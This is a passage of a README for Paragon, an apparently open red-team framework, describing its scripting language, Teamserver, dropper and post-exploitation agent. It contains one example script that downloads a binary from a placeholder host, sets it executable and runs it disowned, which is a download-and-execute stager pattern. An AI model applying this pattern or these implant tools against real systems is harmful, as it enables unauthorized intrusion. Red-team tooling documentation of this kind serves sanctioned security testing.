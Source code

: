 ### Scripting Language
Most components in this repository rely on a Python-like scripting language which enables powerful control and customization of their behaviour. The language is a modified version of [Google's starlark](https://github.com/google/starlark-go), extended with cross-platform functionality for operators. This also enables tools like the agent and dropper (discussed below) to execute tasks without relying on system binaries (`curl`, `bash`, etc). All operations are executed as code in Golang, so it's intuitive to add additional functionality to the scripting environment. Here is an example script:

```python
# Download a file via https, execute it, and don't keep it as a child process.
load("sys", "request")

new_bin = "/tmp/kqwncWECaaV"
request("https://library.redteam.tld", writeToFile=new_bin)

# set new_bin permissions to 0755
chmod(new_bin, ownerRead=True, ownerWrite=True, ownerExec=True, groupRead=True, groupExec=True, worldRead=True, worldExec=True)
exec(new_bin, disown=True)
```
[Reference](https://godoc.org/github.com/KCarretto/paragon/pkg/script/stdlib/sys)

### Teamserver
Provides a simple web application and GraphQL API to interface with a Red Team knowledge graph, unifying tools behind a centralized source of truth and abstracting many tedious backend concerns from operators. Integrate your custom tools with the Teamserver (using the GraphQL API or event subscriptions) to save time on the backend work. The Teamserver records all activity, so with all of your tools unified in one place, writing post-engagement reports becomes signficantly easier.

### Built-In Tools

The below tools are also included within the repository. They can easily be extended to fit many cross-platform use cases.

#### Dropper
* Fully cross-platform
* Statically compile assets into a single binary
* Provides Python-like scripting language for custom deployment configuration

Paragon provides a tool for packaging assets (binaries, scripts, etc.) into a single binary that when executed will execute your custom deployment script that may write assets to the filesystem, launch processes, download files, handle errors, and more. It is fully cross-platform and statically compiled, providing reliable deployments. If you wish to extend it's functionality, you may simply extend the generated golang file before compiling.


#### Agent

* Fully cross-platform
* Provides Python-like scripting language for post exploitation
* Modular communication mechanisms, only compile in what you need
    * Utilize multiple options to ensure reliable callbacks
* Customize how the agent handles communication failures
